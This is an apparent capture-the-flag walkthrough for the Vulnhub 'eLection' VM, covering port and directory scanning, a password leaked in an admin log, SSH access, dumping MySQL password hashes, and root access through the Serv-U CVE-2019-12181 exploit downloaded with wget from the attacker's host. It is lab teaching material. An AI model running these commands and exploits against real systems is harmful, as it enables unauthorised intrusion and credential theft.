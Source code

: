 ```yaml
---
title: "Vulnhub: eLection"
layout: archive
date:   2020-07-24
tags: Vulnhub
tags_label: true
---
```

This is a beginner-level VM, pretty standard. 

### Initial Scan:

```
Nmap scan report ​ for​ 192.168.56.104
Host is up (0.00017s latency).
Not​ shown: 998 closed ports
PORT ​ STATE​ SERVICE
22/tcp open ssh
80/tcp open http
```

### More thorough scan:

```
crazyeights@es-base:~$​ nmap -A -p- ​192.168.56.104
Starting Nmap ​ 7.80​ ( ​ https:​ //nmap.org ) at 2020-07-24 17:45 EDT
Nmap scan report ​ for​ ​ 192.168.56.104
Host is up (​ 0.000099​ s latency).
Not ​ shown:​ ​ 65533​ closed ports
PORT
STATE SERVICE VERSION
22​ /tcp open ssh OpenSSH ​ 7.6​p1 Ubuntu ​ 4ubuntu0​.3​ (Ubuntu Linux; protocol 2.0​)
80​ /tcp open http Apache httpd ​ 2.4.29​ ((Ubuntu))
|_http-server-​ header:​ Apache/​ 2.4.29​ (Ubuntu)
|_http-​ title:​ Apache2 Ubuntu Default ​ Page:​ It works
Service ​ Info:​ ​ OS:​ Linux; ​ CPE:​ ​ cpe:​ / ​ o:linux:​ linux_kernel
```

### Web:

Checked Index.

![](/assets/images/15/e1.png)

Ran nikto to check server for configuration:

```
crazyeights@es-base:~$​ nikto -h http://192.168.56.104
[SNIP]
+ /phpmyadmin/: phpMyAdmin ​directory​ ​found
```

Went to phpmyadmin, checked default credentials

##### Enumeration

```
crazyeights@es-base:~$​ dirb ​ http:​ //192.168.56.104
---- Scanning ​ URL:​ ​ http:​ //192.168.56.104/ ----
+ ​ http:​ //192.168.56.104/index.html (CODE:200|SIZE:10918)
==> ​ DIRECTORY:​ ​ http:​ //192.168.56.104/javascript/
+ ​ http:​ //192.168.56.104/phpinfo.php (CODE:200|SIZE:95517)
==> ​ DIRECTORY:​ ​ http:​ //192.168.56.104/phpmyadmin/
+ ​ http:​ //192.168.56.104/robots.txt (CODE:200|SIZE:30)
+ ​ http:​ //192.168.56.104/server-status (CODE:403|SIZE:279)
```

##### Checking robots.txt:

Contains folders:

*   admin
    
*   wordpress
    
*   user
    
*   election
    

Checked admin/, wordpress/, and user/ - got 404 for all

##### Checking election:

election directory does not give 404, rerunning dirb from election:

```
crazyeights@es-base:~$ dirb http://192.168.56.104/election

GENERATED WORDS: 4612

---- Scanning ​ URL:​ ​ http:​//192.168.56.104/election/ ----
=​=> DIRECTORY: http://192.168.56.104/election/admin/
==> ​ DIRECTORY:​ ​ http:​//192.168.56.104/election/data/
+ http://192.168.56.104/election/index.php (CODE:200|SIZE:7003)
==> ​ DIRECTORY:​ ​ http:​//192.168.56.104/election/js/
==> ​ DIRECTORY:​ ​ http:​//192.168.56.104/election/languages/
==> ​ DIRECTORY:​ ​ http:​//192.168.56.104/election/lib/
==> ​ DIRECTORY:​ ​ http:​//192.168.56.104/election/media/
==> ​ DIRECTORY:​ ​ http:​//192.168.56.104/election/themes/

---- Entering ​ directory:​ ​ http:​//192.168.56.104/election/admin/​ ----
==> ​ DIRECTORY:​ ​ http:​//192.168.56.104/election/admin/ajax/
=​=> DIRECTORY: http://192.168.56.104/election/admin/components/
=​=> DIRECTORY: http://192.168.56.104/election/admin/css/
=​=> DIRECTORY: http://192.168.56.104/election/admin/img/
=​=> DIRECTORY: http://192.168.56.104/election/admin/inc/
+ http://192.168.56.104/election/admin/index.php (CODE:200|SIZE:8964)
=​=> DIRECTORY: http://192.168.56.104/election/admin/logs/
[SNIP]
```

Checked election/admin: Dead End.

##### Checking the admin logs:

```
http:​ //192.168.56.104/election/admin/logs/

File system.log
Contents:
[​2020-01-01 00:00:00​] Assigned Password​ for​ the user love: P@$$w0rd@​123
[​2020-04-03 00:13:53​] Love added candidate​ 'Love'​ .
[​2020-04-08 19:26:34​] Love has been logged ​in​​ from​ Unknown IP ​on​ ​Firefox (Linux).
```

### User

Tried credentials with SSH.

```
crazyeights​@es​-base:​~$ ssh love​@192​.168.56​.104
```

Finding user flag:

```
love@election:~$​ ls -R
.:
Desktop Documents Downloads Videos Music Pictures Public Templates

./​ Desktop:
user.txt

love@election:~$​ ​ cat Desktop/user.txt
cd38ac698c0d793a5236d01003f692b​ 0
```

### Root:

Tried:

*   sudo -l

*   find / -perm u=s 2>/dev/null

```
love@election:~$​ ​ id
uid=​1000​(love) gid=​1000​(love)
groups=​1000​(love),​4(adm),​24​(cdrom),​30​(dip),​33​(www-data),​46​(plugdev),​116(lpadmin),​ 126​(sambashare)

love@election:~$​ ​lsb_release -a
No LSB modules are available.
Distributor ​ ID: Ubuntu
Description: Ubuntu ​18.04​.4 ​LTS
Release: 18.04
Codename: bionic

love@election:~$ ​ find / -group adm -type f ​ 2>/dev/null
```

**Checking database connections for passwords:**

```
love@election:/$​ cat /​var​/www/​html​/election/​admin​/inc/​conn.php

$db_host​ = ​ "localhost"​ ;
$db_user​ = ​ "newuser"​ ;
$db_pass​ = ​ "password"​ ;
$db_name​ = ​ "election"​ ;
```

On the host login to mysql:

```
love@election:/etc/mysql$​ mysql -u newuser -p'password' -h localhost -D election
MariaDB [election]> show;
+---------------------+
| Database            |
+---------------------+
| election            |
| information​ _schema |
| mysql               |
| performance_​ schema |
+---------------------+
4 rows in set (0.00 sec)

MariaDB [election]> use mysql;
Database changed
MariaDB [mysql]> show tables;
MariaDB [mysql]> select * from user;
```

In table:

```
| localhost | root | *9CFBBC772F3F6C106020035386DA5BBBF1249A11 | Y
```

Google it: 9CFBBC772F3F6C106020035386DA5BBBF1249A11​ :toor

```
love@election:/etc/mysql$ su root
Password:
su: Authentication failure
```

Not the root password.

```
love@election:~$​ ​ find / -group www-data -type f ​ 2>/dev/null
There is file /var/www/.bash_history
love@election:~$ ​ cat /var/www/.bash_history
...
```

Is a dead-end

#### The correct path:

```
love@election:~$​ ​find​ ​/ -perm /​4000​ ​2>/dev/​null
....
/usr/​local​/Serv-U/​Serv-U
```

#### Serv-U Privilege Escalation:

Using CVE-2019-12181 Serv-U 15.1.6 Privilege Escalation

> [https://www.exploit-db.com/exploits/47009](https://www.exploit-db.com/exploits/47009)

The server version information is in Serv-U-StartupLog.txt

```
love@election:/usr/local/Serv-U$ ​cat Serv-U-StartupLog.txt
[​01​] Sat ​25​ Jul 2​0 ​03​:12​:49​ - Serv-U File Server (​64​ -bit) - Version ​15.1
(​15.1​.6.25​) - (C) ​ 2017​ SolarWinds Worldwide, LLC. All rights reserved.
```

Download the exploit:

```

love@election:~$​ wget ​http:​//192.168.56.1/​47009​.c
```

Compile and run the exploit:

```
love@election:~$​ gcc -o pe ​47009​.c
love@election:~$ ​ ./pe
uid=​0 ​(root) gid=​0 ​(root)
groups=​0​(root),​ 4​(adm),​ 24​(cdrom),​ 30​(dip),​ 33​(www-data),​ 46​(plugdev),​ 116​(lpadmin),​ 126​(sambashare),​ 1000​(love)
opening root shell
# cd /root
# ls
root.txt
# cat root.txt
5238​feefc4ffe09645d97e9ee49bc3a6
```

FIN.